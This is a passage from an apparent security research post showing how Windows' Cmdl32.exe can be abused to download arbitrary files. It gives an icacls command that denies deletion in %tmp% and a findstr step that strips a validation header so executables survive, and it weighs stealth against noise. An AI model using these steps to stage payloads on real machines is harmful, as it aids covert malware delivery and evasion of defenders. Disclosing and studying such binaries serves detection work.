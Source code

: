 {{ img(file="strings.png") }}

### Hurdle 2: Surviving DeleteFileA

At this point, we have successfully used `Cmdl32.exe` to make an HTTP (or HTTPS) request to download a file from a website of our choosing. We can see proof of this success by looking for the HTTP request with a packet sniffer such as Wireshark (`UpdateUrl=http://example.com` in `settings.txt` here):

{{ img(file="packet-capture.png") }}

But, there's a problem... If `Cmdl32.exe` detects that our downloaded file does not contain the `[VPN Servers]` profile section (just that text prepended to the file) then it will immediately delete the file:

{{ img(file="detect-vpn-servers-profile.png") }}

Followed by the actual deletion not long after the file is detected to not be in the valid format:

{{ img(file="delete-file.png") }}

One way to solve this would be to simply add the text `[VPN Servers]` to the start of our downloaded file, however, this would limit what we can download to maybe only scripts and base 64 encoded content (no binary data such as EXEs or DLLs).

I haven't tested whether `GetPrivateProfileSectionA` allows for arbitrary binary data after seeing the `[VPN Servers]` header it's looking for. But, in the case that it's allowed we could use run `findstr /v "[VPN Servers]" <FILE_PATH>` after downloading to remove the `[VPN Servers]` header and leave everything else (like our EXE data) in the file. `findstr.exe` fully supports binary data and is a known trick for achieving some things in batch programming and with lolbins.

Another (very dicey) approach would be to simply race the deletion, if we kept downloading the file until we were able to move/copy it before `DeleteFileA` is called by `Cmdl32.exe` then that might work. File creation and writing of the downloaded contents to the file are done with two separate Win32 function calls, `GetTempFileNameA` and `WriteFile` respectively (the whole file is written from a memory buffer at once). This means we would also have to check to make sure the file size isn't zero (only just created, nothing downloaded and written yet) before moving/copying. While I think this method is certainly possible, it's very noisy (not stealth) and would be a very dirty way of accomplishing our goal.

I briefly considered the former two approaches but quickly dismissed them after remembering that NTFS (the default filesystem used by Windows) supports denying deletion permissions on files/directories using <a href="https://en.wikipedia.org/wiki/Access-control_list" target="_blank">ACLs</a> (as do the filesystems on Linux and MacOS). Furthermore, there is a command-line tool for granting and denying even advanced ACLs called `icacls.exe` that's been available since Windows Vista. Using `icacls.exe` to remove deletion permissions from the temporary directory (`%tmp%` or `%temp%`) for the current user is as simple as running `icacls %tmp% /deny %username%:(OI)(CI)(DE,DC)` where `DE` = `delete` and `DC` = `delete child`. `(OI)(CI)` enables the inheritance of these permissions for new files as they are created in the directory. See the Twitter demo (or try it yourself) to see what this looks like.

### Hurdle 3: Controlling the Call to GetTempFileNameA

This is a bonus step which isn't technically required but adds that final touch to make this entire lolbin super clean. Right now, using this lolbin requires temporarily altering the permissions of the temporary folder (`C:\Users\%USERNAME%\AppData\Local\Temp` by default) which could lead to undesirable side effects in other programs also using that folder. So, is the `GetTempFileNameA` function possible to control in a way that would allow us to set an arbitrary "temporary" directory? Let's read the official <a href="https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-gettemppatha" target="_blank">GetTempPathA Microsoft documentation</a> to find out. Note that this documentation is stored under `GetTempPathA` but this part also applies to `GetTempFileNameA`. Looking at the "Remarks" section we immediately find the search path used by this Win32 function to determine where to store temporary files:
